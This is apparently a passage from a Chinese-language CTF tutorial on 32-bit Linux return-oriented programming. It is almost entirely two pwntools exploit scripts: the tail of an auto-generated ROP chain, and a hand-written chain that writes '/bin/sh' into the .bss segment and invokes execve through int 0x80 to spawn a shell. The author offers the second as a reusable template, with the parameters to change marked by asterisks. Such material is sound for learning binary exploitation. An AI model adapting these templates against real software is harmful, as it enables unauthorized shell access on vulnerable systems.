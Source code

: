 ```python
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80
r.sendline(p)
r.interactive()
```
这就是定死的模板，没什么好说的。

如果手写的话也可以，原理的话上面解释过了，这个也可以当做模板来用，需要修改的参数，我后面加了三个*。
```python
#coding:utf-8
from pwn import *
context(arch = "i386",os = "linux",log_level='debug')
#d=remote('node4.buuoj.cn',25149)#***
d=process('./a')
int_0x80_addr=0x0806cc25 #*** 这些片段的话，直接用Ropgadget搜就可以了
bss_addr=0x080e9000      #***这个用vmmap看一下哪里是可写的，然后放上这段可写的地址就行了
pop_eax_addr=0x080b81c6  #***
pop_ebx_addr=0x080481c9  #***
pop_ecx_addr=0x080de955  #***
pop_edx_addr=0x0806f02a  #***
pop_in_ecx_addr=0x0804b5ea#*** 这个地方用这个指令找
# ROPgadget --binary  a | grep 'pop dword ptr \[ecx\]' 这里不一定要ecx的，别的寄存器也可以

payload=28*'a' #***

payload+=p32(pop_ecx_addr)+p32(bss_addr) #利用ecx当一个媒介，以此来让/bin/sh写到bss段，最后的00用来截断，不然execve接收参数的时候，它不知道什么时候参数截止。
payload+=p32(pop_in_ecx_addr)+'/bin'
payload+=p32(pop_ecx_addr)+p32(bss_addr+4)
payload+=p32(pop_in_ecx_addr)+'/sh\x00'
payload+=p32(pop_eax_addr)+p32(0xb)
payload+=p32(pop_ebx_addr)+p32(bss_addr)#把ebx存入参数/bin/sh的地址
payload+=p32(pop_ecx_addr)+p32(0)
payload+=p32(pop_edx_addr)+p32(0)
payload+=p32(int_0x80_addr)
d.sendline(payload)
d.interactive()
```

